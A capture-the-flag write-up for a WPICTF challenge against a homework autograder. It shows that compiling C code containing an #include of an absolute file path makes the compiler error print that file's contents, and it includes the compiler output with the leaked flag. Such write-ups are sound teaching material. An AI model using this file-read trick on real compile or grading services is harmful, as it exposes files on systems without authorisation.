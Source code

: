 #### Challenge:

A prof made a little homework grader at https://autograder.wpictf.xyz/ but I heard he is hiding a flag at `/home/ctf/flag.txt`

---

#### Solution:

- include `flag.txt` file as abs path in `C` and compilation should fail and expose file content

```c
#include "/home/ctf/flag.txt"
```

```
Compiler stdout
None
stderr
In file included from /tmp/sarce/tmpsocij3ki/input.c:2:
/home/ctf/flag.txt:1:4: error: expected ‘=’, ‘,’, ‘;’, ‘asm’ or ‘__attribute__’ before ‘{’ token
    1 | WPI{D0nt_run_as_r00t}
      |    ^
```

---

<details><summary>FLAG:</summary>

```
WPI{D0nt_run_as_r00t}
```

</details>
<br/>
